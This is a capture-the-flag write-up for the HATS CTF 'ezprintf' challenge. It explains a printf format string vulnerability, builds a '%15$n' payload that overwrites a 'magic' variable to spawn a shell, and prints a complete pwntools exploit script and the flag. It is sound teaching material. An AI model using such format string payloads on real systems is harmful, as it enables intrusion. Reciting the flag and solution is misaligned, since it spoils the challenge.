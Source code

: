 ```yaml
---
title: "ezprintf [496]"
tags: [HATS CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
layout: single
classes: wide
--- 
```


**Category:** Binary Exploitation

> Printf is wonky. Time to exploit its wonkyness.
>
> nc challs.hats.sg 1304
>
> Reading material:  
> https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf

[Challenge Files](https://github.com/MiloTruck/CTF-Archive/tree/master/HATS%20CTF/Binary%20Exploitation/ezprintf%20%5B496%5D){: .btn .btn--primary}

## Write-up
This challenge is a standard format string challenge. 

Here's the simplified decompilation of **main**:
```c
  magic = 0;
  read(0,input,0x400);
  printf(input);
  if (magic != 0) {
    system("/bin/sh");
  }
```

Obviously, the line `printf(input);` contains a format string vulnerability. The format string argument was missing from `printf`, which could be exploited to print and overwrite addresses on the stack.

The objective of the challenge was to overwrite the value of `magic`, which would instantly give us a shell. However, the address of `magic` which was `0x0060106c`, contained a null byte, which would cause `printf` to stop "executing" our payload once the null byte was reached.

To overcome this, the address of `magic` can be placed last in the payload. We can use the format specifier `%15$n` to overwrite `magic`, where `magic` is the 15th value on the stack to be printed. This ensures `magic` is overwritten before the null byte is reached.

The payload contains the following:
1. `"%x "*21`: Prints the first 21 arguments on the stack in hex. It allows us to locate the address of `magic` in the stack after including it in our payload.
2. `"%15$n "`: The format specifier `%n` overwrites the next address on the stack with the number of bytes printed. This is used to overwrite `magic` with the number of bytes currently printed.
3. `"BBB"`: This is used to align stack, ensuring the address of `magic` isn't split up.
4. The address of `magic`.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./ezprintf",
    #"libc" : "./",
    #"ld" : "./",
    "HOST" : "challs.hats.sg",
    "PORT" : 1304,
}

def exploit(p):
	magic = elf.symbols['magic'] #0x0060106c
	
	payload = "%x "*21 + "%15$n "
	payload += "BBB" + p64(magic)

	sl(payload)
	p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
 ```

**Flag:** HATS{h3h1_that_w1z_3z}
